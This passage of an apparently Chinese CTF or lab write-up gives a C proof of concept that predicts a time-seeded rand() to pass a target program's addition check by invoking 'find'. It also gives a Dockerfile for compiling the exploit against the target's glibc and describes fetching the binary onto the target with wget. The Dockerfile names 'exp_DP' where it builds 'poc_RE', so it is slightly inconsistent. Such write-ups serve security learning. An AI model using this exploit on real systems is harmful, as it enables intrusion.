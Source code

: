 用当前时间作为种子生成随机数，所以用c写了个程序可以制造出一样的随机数，然后构建表达式调用find就能通过加法检验了

（一开始试了试bash脚本，但是随机数的生成方式不一样）

```c
/* poc_RE.c */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

int main()
{
    unsigned int v3;
    unsigned int v6;
    unsigned int v7;
    int i;

    v3 = time(0LL);
    srand(v3);
    char work[500]="find ";

    for (i = 1; i < 40; ++i)
    {
        v7 = rand() % 23333;
        v6 = rand() % 23333;
        char towork[10];
        sprintf(towork, "%d", v7 + v6);
        strcat(towork, " ");
        strcat(work, towork);
    }
    system(work);
    return 0;
}
```

靶机上是没有gcc的，所以就在vps上编译然后部署，连上靶机用wget获取，之后`chmod 777`赋予执行权限

然后报错了，glibc的版本不兼容，所以在vps上用docker起了个和靶机一样的debian11来编译

```dockerfile
FROM debian:11

COPY poc_RE.c /usr/src/poc_RE.c

RUN sed -i 's/deb.debian.org/mirrors.tuna.tsinghua.edu.cn/g' /etc/apt/sources.list \
    && apt-get update && apt-get install -y gcc

WORKDIR /usr/src

RUN gcc poc_RE.c -o poc_RE
RUN mkdir /output && cp exp_DP /output/poc_RE

CMD ["ls", "/output"]

#启动容器后再用docker cp命令把容器内的poc_RE复制出来
```
